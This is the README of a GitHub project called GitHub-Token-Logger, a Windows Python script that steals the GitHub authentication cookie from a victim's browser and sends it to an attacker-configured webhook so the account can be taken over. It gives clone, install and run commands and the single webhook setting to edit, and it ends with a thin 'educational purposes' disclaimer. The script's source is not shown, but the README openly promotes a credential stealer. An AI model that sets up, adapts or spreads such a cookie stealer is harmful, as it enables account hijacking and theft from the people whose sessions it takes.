 
# GitHub-Token-Logger
This script is made in python3, and steals the auth cookie that github uses. You can use this cookie to login to the account, using another script linked in the readme.
I have created a script that allows you to login to the cookie. Link:

## Setup

Depending on your python installation your commands may vary. 
Below are the commands needed to set up.
The script was tested in python 3.8.6, on windows 10. This script only works on windows.

Windows:
```
git clone https://github.com/LocalsGitHub/GitHub-Token-Logger.git
cd GitHub-Token-Logger
pip install browser_cookie3
pip install requests
py logger.py
```
## Config

Once you have opened the script in your desired text editor, there 1 line that you can change.
```
# Enter your webhook below
webhook = "Enter your webhook here"
```

# Support
Create an issue, or message me on discord.

# Credit

Credit to me for maintaining this project.
Credit to https://github.com/borisbabic/browser_cookie3 for their module.

## This is only for educational purposes, as I am not responsible for any malicous actions you do using this repo.
